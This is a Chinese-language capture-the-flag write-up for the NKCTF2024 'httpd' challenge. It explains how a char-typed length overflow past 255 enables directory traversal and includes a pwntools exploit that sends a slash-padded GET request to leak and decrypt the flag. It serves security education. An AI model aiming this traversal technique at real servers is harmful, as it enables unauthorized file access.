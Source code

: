 目录穿越
====

- 此题是NKCTF2024 httpd这道题

题目分析
----

1. %\[^ \] 是C语言中 scanf 和 sscanf 函数用于格式化输入的格式化字符串中的一个格式说明符。具体地，%\[^ \] 表示要读取的输入字符序列直到遇到第一个空格字符（空格字符之前的字符），然后将其存储到对应的变量中。其中 ^ 符号表示取反，\[^ \] 表示除了空格之外的所有字符。这样的格式化说明符通常用于读取字符串中的单词或特定字符之间的内容。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-32bd70cd2207a8b3551cb9e896ff58b6d04d359c.png)

2. **这里最主要的漏洞是v7是char型，那么strlen后超过255后会有溢出漏洞，那么就可以由此进行目录穿越**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-fe232ee351f1bf7740c3b249d262f512c88650e6.png)

3. 利用scandir函数进行目录扫描,通过扫描../目录得到../flag.txt目录进行输出

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-c9934efacfa4cb19b23396a94a6c2776077da970.png)

4. 区分sscanf函数与scanf函数 
    - scanf 函数：  
        scanf 函数从标准输入流（通常是键盘）读取输入，可以使用格式化字符串来指定期望输入的格式。  
        它通常用于从用户键盘输入的交互式输入中读取数据。  
        例如：scanf("%d %f", &amp;intVar, &amp;floatVar); 会尝试从标准输入中读取一个整数和一个浮点数。
    - sscanf 函数：  
        sscanf 函数用于从一个字符串中按照指定的格式解析数据，与 scanf 不同，它不是直接从标准输入流中读取数据，而是从给定的字符串中读取数据。它通常用于解析字符串中的特定格式的数据。  
        例如：sscanf(str, "%d %f", &amp;intVar, &amp;floatVar); 会尝试从字符串 str 中读取一个整数和一个浮点数。
5. 最后就是要慢慢逆向出逻辑就好了

exp
---

```python
from pwn import *
import sys
LOCAL = len(sys.argv) == 1
if LOCAL:
    p = process('./httpd')
else:
    p = remote(sys.argv[1], int(sys.argv[2]))

p.send(b'GET /.' + b'/' * 256 + b'.. HTTP/1.0\r\n')
p.send(b'host: 0.0.0.10\r\n')
p.send(b'Content-length: 0\r\n')

p.recvuntil(b'./flag.txt:')
data = p.recvline(keepends=False)

from Crypto.Cipher import ARC4
print(ARC4.new(b'reverse').decrypt(data))

# p.interactive()
p.close()

# NKCTF{35c16fb6-2a41-4b83-b04c-c939281bea4c}
```
